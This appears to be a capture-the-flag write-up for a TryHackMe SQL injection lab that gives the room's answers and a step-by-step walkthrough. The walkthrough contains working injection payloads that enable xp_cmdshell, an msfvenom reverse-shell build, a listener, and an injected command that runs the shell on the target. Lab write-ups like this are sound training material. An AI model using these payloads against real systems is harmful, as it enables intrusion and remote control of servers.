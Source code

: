 # Advent of Cyber

Day 10 - SQL Injection

----------------------------------

- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
	- `/giftsearch.php`

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
	- `ODBC Driver 17 for SQL Server`

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
	- `THM`

- What flag is in the note file Gr33dstr left behind on the system?
	- `THM`

- What is the flag you receive on the homepage after restoring the website?
	- `THM`


<details>
Steps:

1. 

----------------------------------------------------------------
2. Just by putting a ' apostrophe in the age paramater we can now cause errors and review the ODBC driver

```
age='
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14915c0b-d13a-4b1e-8589-0fa75722b507)


 ----------------------------------
First we need to enable the xp_cmdshell in the SQL server
	
```
http://10.10.82.81/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a28b6e6c-69ec-4473-bcd3-1ff56c14dd38)


We need to create a reverse shell to the victim machine

We will use the msfvenom to create the exe file

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d26ab8ab-8ded-44ae-842e-1d92b50277af)

Then we will open our python server to port 8000

```
python3 -m http.server 8000
```

Then we will put this reverse shell into the victim machine using the xp_cmdshell command 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/49693447-2836-46b7-879f-dd781b2ac6ab)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/7ef21343-bd57-48f0-b382-85103c5d6fba)

After that we will now use NC to listen to the port that we specified

```
nc -lvnp 4444
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/40f6d77c-7d22-4643-ba3c-e4f976c2d4ac)

Then we need to execute the exe file in the victim side. Just by typing in the URL

```
http://10.10.82.81/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14f82251-691c-42e0-bf2c-26538034d7cc)

After that we will get the command line to the victim's machine now we have root access to their machine....

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d17408d8-c8c0-49f8-912f-a65033220c20)






As you can see we now restore the website using the bat file

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f6ac1f9c-00d3-435f-8ccc-13ce197f6b6c)


------------------------------------------------------
3. If we will put ' or 1=1 -- in the URL parameter we can return all of the content in the database. Along side with the THM flag.

 ![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f4e75f6b-0079-4ad9-8e1f-b2dcfca64476)

------------------------------------------------------
4. Just by a few navigations we can now see the files in the Users Desktop

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/6173ee70-32e5-407c-a3cb-d83a8607432a)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/488968cb-677a-4745-9a4b-0e4973a45164)

-----------------------------------------------------

5. Visit the /index.php we have a flag 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/71c0eff7-ac59-4da6-9122-220854f775fd)

</details>
